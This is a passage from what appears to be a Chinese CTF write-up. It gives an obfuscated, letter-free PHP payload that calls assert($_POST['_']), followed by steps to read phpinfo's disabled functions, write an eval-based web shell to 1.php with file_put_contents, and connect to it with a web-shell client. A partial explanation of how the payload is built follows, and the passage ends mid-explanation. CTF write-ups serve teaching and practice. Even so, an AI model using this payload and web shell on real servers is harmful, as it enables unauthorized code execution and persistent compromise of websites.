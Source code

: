   ```
  %24_%3D%5B%5D%3B%24_%3D%40%22%24_%22%3B%24_%3D%24_%5B'!'%3D%3D'%40'%5D%3B%24___%3D%24_%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24___.%3D%24__%3B%24___.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24___.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24___.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24___.%3D%24__%3B%24____%3D'_'%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24____.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24____.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24____.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24____.%3D%24__%3B%24_%3D%24%24____%3B%24___(%24_%5B_%5D)%3B
  ```

- post 传入 `_=phpinfo();`
- Ctrl+F 查找 "disabled_functions" ，发现有 system、exec 和 shell_exec ，但没有 file_put_contents 。
- post 传入 `_=file_put_contents("1.php", "<?php eval($_POST['x']); ?>");`

- 访问 `xxx/1.php` ，蚁剑连接。

###### NOTICE

- payload 构造过程：

  ```php
  $_=[];
  $_=@"$_"; // $_='Array';
  $_=$_['!'=='@']; // $_=$_[0]; 即A
  $___=$_; // A
  $__=$_;
  $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
  $___.=$__; // S
  $___.=$__; // S
  $__=$_;
  $__++;$__++;$__++;$__++; // E 
  $___.=$__;
  $__=$_;
  $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
  $___.=$__;
  $__=$_;
  $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
  $___.=$__;
  
  $____='_';
  $__=$_;
  $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
  $____.=$__;
  $__=$_;
  $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
  $____.=$__;
  $__=$_;
  ```